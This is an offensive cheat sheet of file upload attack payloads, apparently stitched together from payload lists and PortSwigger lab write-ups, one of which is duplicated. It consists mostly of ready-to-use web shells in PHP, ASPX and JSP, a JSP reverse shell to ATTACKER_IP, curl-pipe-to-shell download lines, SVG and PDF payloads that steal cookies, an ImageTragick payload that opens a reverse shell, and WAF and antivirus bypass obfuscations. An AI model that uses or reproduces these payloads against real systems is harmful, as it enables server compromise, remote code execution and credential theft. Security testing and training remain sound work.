# **✅ File Upload Vulnerabilities – Complete Test Case (with Bypass Cases)**

# **1. List of Vulnerabilities**

```
1.1 Unrestricted File Upload
1.2 MIME-Type Bypass
1.3 Content-Type Header Forgery
1.4 File Extension Bypass
1.5 Double Extension Upload
1.6 Null Byte Injection
1.7 Polyglot File Upload (Image + Script)
1.8 SVG XSS Payload Upload
1.9 Uploading .htaccess for PHP Execution
1.10 Upload Path Traversal (../)
1.11 Client-Side Validation Bypass
1.12 Server-Side Weak Validation
1.13 ImageMagic / EXIF Injection (ImageTragick)
1.14 Remote Code Execution via File Upload
1.15 File Upload → SSRF / LFI / RCE Chains
```

---

# **2. Sample Payloads (Core Attack Payloads)**

*(Normal Structured Payload List)*

```
2.1 Simple Web Shell Upload
<?php system($_GET['cmd']); ?>
```

```
2.2 Double Extension File
shell.php.jpg
```

```
2.3 Fake MIME Type Header
Content-Type: image/jpeg
```

```
2.4 Null Byte Injection (Legacy PHP)
shell.php%00.jpg
```

```
2.5 Polyglot Image + PHP
GIF89a;
<?php echo shell_exec($_GET['cmd']); ?>
```

```
2.6 Malicious SVG Upload (XSS)
<svg><script>alert(1)</script></svg>
```

```
2.7 .htaccess to Force PHP Execution
AddType application/x-httpd-php .jpg
```

```
2.8 Upload Path Traversal
../../../../tmp/shell.php
```

```
2.9 Malicious EXIF Injection
exiftool -Comment="<?php system($_GET['cmd']); ?>" image.jpg
```

```
2.10 ImageMagick Exploit (ImageTragick)
push graphic-context
viewbox 0 0 640 480
fill 'url(https://attacker.com/payload")'
```

---

# **3. Sample Payloads (Updated With Real Offensive Payloads)**

*(Real-world exploitation payloads used in RCE cases)*

```
3.1 PHP One-Liner Shell
<?=`$_GET[0]`?>
```

```
3.2 ASPX Web Shell
<%@ Page Language="C#" %><% Response.Write(System.Diagnostics.Process.Start("cmd.exe","/c "+Request["cmd"])); %>
```

```
3.3 JSP Reverse Shell
<%@ page import="java.io.*"%><%Runtime.getRuntime().exec("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'");%>
```

```
3.4 WAR Upload (Tomcat)
[WAR archive containing malicious JSP]
```

```
3.5 PHP File Hidden in JPEG (Polyglot)
ÿØÿà<?php echo shell_exec($_GET['cmd']); ?>
```

```
3.6 SVG with External Entity (SVG XXE)
<!DOCTYPE svg [<!ENTITY x SYSTEM "file:///etc/passwd">]><svg>&x;</svg>
```

```
3.7 Malicious PDF Payload (JS Auto-Exec)
<< /OpenAction << /JS (app.alert('Pwned')) >> >>
```

```
3.8 Windows Executable Upload (Phishing Dropper)
payload.exe
```

```
3.9 Node.js RCE via Uploaded .js Script
require('child_process').exec('curl http://attacker/a.sh | sh')
```

```
3.10 Python Script Upload → Cronjob Hijack
os.system("curl attacker/pwn | bash")
```

---

# **4. Bypass Techniques (Filters, WAF, Antivirus, MIME Checks)**

*(Same style as Host Header / Prototype Pollution bypass sections)*

```
4.1 Double Extension Bypass
pwn.php.gif
```

```
4.2 Triple Extension Bypass
pwn.php.jpg.png
```

```
4.3 Full Null Byte Injection
pwn.php%00.png
```

```
4.4 Upper/Lower Case Extension Bypass
SHELL.PhP
```

```
4.5 UTF-8 Normalization Bypass
pwn.p%CC%88hp
```

```
4.6 Spoof Content-Type
Content-Type: image/png
```

```
4.7 Chunked Transfer-Encoding Bypass
Transfer-Encoding: chunked
```

```
4.8 Polyglot (PDF + JS + Image)
%PDF-1.3
<js_code_here>
```

```
4.9 Magic Bytes Bypass (Fake Header)
FF D8 FF E0 (JPEG) + <?php ... ?>
```

```
4.10 SVG as Image / Script Combo
<svg/onload=alert(1)>
```

```
4.11 Base64 Encoded Upload
data:image/png;base64,PD9waHAgc3lzdGVtKCRfR0VUWydj...
```

```
4.12 GZIP Compressed Upload
(file.gz containing PHP)
```

```
4.13 HTAccess MIME Force Execution
AddHandler application/x-httpd-php .jpg
```

```
4.14 File Name Obfuscation
....////shell.php
```

```
4.15 Multi-part Boundary Manipulation
------AaB03x
Content-Disposition: form-data; filename="pwn.php"
```

```
4.16 Oversized Boundary (WAF Bypass)
------verylongboundarystring123...
```

```
4.17 Browser-based Client Validation Bypass
Disable JS, upload shell.php
```

```
4.18 Parameter Pollution
file=shell.php&file=.jpg
```

---

# **5. Advanced Attack Chains (Upload → Full Compromise)**

```
5.1 File Upload → Web Shell → RCE
Upload: shell.php
Execute: /uploads/shell.php?cmd=id
```

```
5.2 SVG Upload → Stored XSS → Session Hijack
<svg><script>document.location='//attacker/cookie?c='+document.cookie</script></svg>
```

```
5.3 PDF Upload → JS Execution → Credential Theft
/OpenAction << /JS (fetch('https://x/pwn?c='+document.cookie)) >>
```

```
5.4 File Upload → SSRF via Image Parsing
push graphic-context
fill 'url(http://127.0.0.1:8080/admin)'
```

```
5.5 File Upload → Path Traversal → Config Overwrite
filename="../../../../config.php"
```

```
5.6 File Upload → Zip Slip → RCE
evil.zip
 ├── ../../../../var/www/html/shell.php
```

```
5.7 Upload Malware → AV Bypass → Persistence
payload.exe masked as invoice.png
```

01 Remote code execution via web shell upload
=============================================

This lab contains a vulnerable image upload function. It doesn't perform any
validation on the files users upload before storing them on the server's
filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the
contents of the file /home/carlos/secret. Submit this secret using the button
provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/file-upload



There is a function to upload a logo, it is possible to upload a PHP file to
show the content of the file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/avatar HTTP/2
...
-----------------------------372082654728426116931381616293
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------372082654728426116931381616293
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Now you can read the value of the file ("G5Bm58gT0NzAmOPLxpe0vR82y4CNT6WY")
accessing /avatars/test.php:



02 Web shell upload via Content-Type restriction bypass
=======================================================

This lab contains a vulnerable image upload function. It attempts to prevent
users from uploading unexpected file types, but relies on checking
user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the
contents of the file /home/carlos/secret. Submit this secret using the button
provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/file-upload



If we try the same payload as the previous lab there is an error:



Changing the Content-Type it is possible to upload the PHP file:



And read the secret ("wDHZLacPXl2c4B4MZl2j7T3MluCqDzjR"):



03 Web shell upload via path traversal
======================================

This lab contains a vulnerable image upload function. The server is configured
to prevent execution of user-supplied files, but this restriction can be
bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the
contents of the file /home/carlos/secret. Submit this secret using the button
provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/file-upload



It is possible to upload a PHP file:



But it does not execute:



To execute the PHP file we will upload it in a different directory using path
traversal. We need to encode the payload or it will not work
(filename="%2e%2e%2fb.php"):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/avatar HTTP/2
...
-----------------------------40637643122628174081089911774
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fb.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------40637643122628174081089911774
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



The files is uploaded to the folder “/files” and not “/files/avatars”:



04 Web shell upload via extension blacklist bypass
==================================================

This lab contains a vulnerable image upload function. Certain file extensions
are blacklisted, but this defense can be bypassed due to a fundamental flaw in
the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the
contents of the file /home/carlos/secret. Submit this secret using the button
provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

Hint: You need to upload two different files to solve this lab.

References:

-   https://portswigger.net/web-security/file-upload

New .htaccess file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





Upload Phpinfo file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





Upload cmdshell:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





Read the file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq



05 Web shell upload via obfuscated file extension
=================================================

This lab contains a vulnerable image upload function. Certain file extensions
are blacklisted, but this defense can be bypassed using a classic obfuscation
technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the
contents of the file /home/carlos/secret. Submit this secret using the button
provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/file-upload



It is not possible to upload PHP files:



I tried to upload the file with the names:

-   “test.php.jpg” but it is interepreted as an image.

-   “test.php.” but it is not accepted

-   “test%2Ephp” but it is not accepted

The payload “test.php%00.jpg” uploads a file “test.php”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/avatar HTTP/2
...
-----------------------------384622689610978532422380962615
Content-Disposition: form-data; name="avatar"; filename="test.php%00.jpg"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------384622689610978532422380962615
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



The file test.php has been created:



06 Remote code execution via polyglot web shell upload
======================================================

This lab contains a vulnerable image upload function. Although it checks the
contents of the file to verify that it is a genuine image, it is still possible
to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the
contents of the file /home/carlos/secret. Submit this secret using the button
provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/file-upload



I uploaded a real JPG file and deleted as many bytes as possible. This is the
least you can send so the server still finds it is a JPG image:



So we can change everything to update a PHP file like this:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/avatar HTTP/2
...
-----------------------------223006367629168816071656253944
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: text/php

<--JPG MAGIC NUMBER-->

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------223006367629168816071656253944
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



And then access /files/avatars/test.php to read the content of the file:



# 1 - Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


----------------------------------------------

Reference: https://portswigger.net/web-security/file-upload

----------------------------------------------

Generated endpoint: https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net

Update .htaccess:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t

```


Upload Phpinfo():

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

```


Update cmdshell:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}
```


<br>

RCE:

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
carlos

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq


Below is the **File Upload Vulnerabilities – Complete Bypass Payload List**, in the **same full format** you requested for OAuth, Host Header, SSRF, XXE, SSTI, Command Injection, etc.

This includes **real malicious payloads**, **filter bypasses**, **content-type manipulation**, **polyglots**, **double extensions**, **null-byte tricks**, **advanced webshell payloads**, and **storage-level bypasses**.

---

# ⭐ **File Upload Vulnerabilities – Complete Bypass Payload List**

*(For Pentesting, Red Teaming, Bug Hunting)*

---

# **1. File Extension Bypass Techniques**

### **Double Extension Payloads**

```
shell.php.jpg
exploit.asp;.jpg
backdoor.pHp
rev.PHP5
```

### **Case Manipulation**

```
SHELL.PhP
index.PHp3
```

### **Whitelist Bypass**

```
style.css.php
avatar.png.phps
```

### **Unicode Bypass**

```
shell.php%00.png
shell.php;.jpg
```

---

# **2. MIME Type Bypass Techniques**

### **Fake Content-Type Headers**

```
Content-Type: image/png
Content-Type: image/jpeg
Content-Type: application/octet-stream
```

### **Real Payload + Fake Magic Bytes**

```
\x89PNG\r\n\x1a\n<?php system($_GET['cmd']); ?>
```

### **Polyglot Files**

(Works as image + executable)

```
GIF89a; <?php echo shell_exec($_GET['cmd']); ?>
```

---

# **3. Directory / Storage Based Bypasses**

### **Full Path Upload Override**

```
PUT /uploads/../shell.php
```

### **S3 / Cloud Storage Overwrite**

```
upload to s3://bucket/public/shell.php
```

### **Overwriting Application Files**

```
upload → /var/www/html/.htaccess
```

---

# **4. Web Server Parsing Confusion Bypasses**

### **Apache**

```
shell.php.jpg
shell.php%00.jpg
```

### **Nginx (multi-extension)**

```
shell.php;.jpg
```

### **IIS**

```
cmd.asp;.png
shell.aspx%00.jpg
```

---

# **5. Payloads for Executable Web Shells**

### **PHP Webshell**

```
<?php system($_GET['cmd']); ?>
```

### **PHP One-liner**

```
<?=`$_GET[x]`?>
```

### **Asp.NET Webshell**

```
<% Execute(Request("cmd")) %>
```

### **Node.js Injected Payload (if parsed)**

```js
{"name":"test","__proto__":{"toString":"require('child_process').execSync('id')"}}
```

### **JSP Webshell**

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

---

# **6. Advanced Polyglot Payloads**

### **JPG + PHP Polyglot**

```
ÿØÿà... (JPG header)
<?php system($_GET['cmd']); ?>
```

### **PDF + PHP Polyglot**

```
%PDF-1.7
<?php echo eval($_POST['x']); ?>
```

### **GIF Polyglot**

```
GIF89a;
<?php echo shell_exec('id'); ?>
```

---

# **7. HTAccess Upload Bypasses**

### **Enable PHP Execution in Uploads Directory**

```
# .htaccess
AddType application/x-httpd-php .jpg
AddHandler application/x-httpd-php .jpg
```

### **Changing Directory behavior**

```
Options +Indexes
```

### **Trigger Server Side Script Execution**

```
php_flag engine on
```

---

# **8. Client-Side Validation Bypass**

### **Disable JS Validation**

```
Intercept → Remove “.jpg only” JS checks
```

### **Tamper Content-Type via Burp**

```
Content-Type: application/x-php
```

### **Modify Hidden Input Fields**

```
<input type="hidden" name="fileType" value="image/png">
```

---

# **9. ImageTragick Bypass (ImageMagick)**

*(If application uses convert/identify on uploaded images)*

### **RCE Payload (ImageMagick)**

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://attacker.com/exploit.svg|bash -i >& /dev/tcp/attacker.com/4444 0>&1)'
pop graphic-context
```

### **SVG RCE**

```xml
<image xlink:href="|ls -la" />
```

---

# **10. PDF Upload → RCE Payloads**

### **PDF with Embedded JS**

```
/JavaScript (app.launchURL("http://attacker.com"))
```

### **Embedded File Extraction**

```
/EmbeddedFile << /Subtype /application/x-httpd-php >>
```

---

# **11. Archive Upload Bypass**

### **Zip Slip (Directory Traversal in ZIP)**

```
../../../../../../var/www/html/shell.php
```

### **RAR And TAR Bypass**

```
shell.php in /var/www/html/uploads
```

### **Zip Bomb**

```
42.zip
```

---

# **12. File Upload → LFI/RFI Chaining**

If the file can’t execute directly, combine with LFI:

### **Call Uploaded Shell**

```
/page.php?file=uploads/shell.php
```

---

# **13. Payload Obfuscation / Encoding**

### **Base64 Payload**

```
PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

### **ROT13 PHP Payload**

```
<?cevag(fghss)?>
```

### **Mixed Comments Obfuscation**

```
<?php /* */ system /* */ ($_GET["cmd"]); ?>
```

---

# **14. WAF Bypass Payloads**

### **Space Obfuscation**

```
<?php%20system($_GET['cmd']);?>
```

### **Tabs / Newlines**

```
<?php
system
($_GET['cmd']);
?>
```

### **Filtered keyword bypass**

```
<?php ecHo shell_exec($_GET['cmd']); ?>
```

---

# **15. Content-Type Spoofing Payloads**

### **Hidden MIME**

```
Content-Type: application/x-msdownload
```

### **Multipart Abuse**

```
------xxx  
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/gif
```

---

# **16. Mobile App Upload Bypass**

### **Android File Upload Attack**

Use ADB to force upload:

```
adb push shell.php /sdcard/Download
```

### **iOS Jailbreak Upload**

Upload directly into app sandbox.

---

# **17. Cloud Upload Bypasses (S3, Azure, GCP)**

### **ACL Misconfig**

```
upload shell.php → publicly accessible bucket
```

### **S3 Webshell**

```
https://bucket.s3.amazonaws.com/shell.php
```

### **GCP Signed URL Abuse**

Upload executable via signed URL.

---

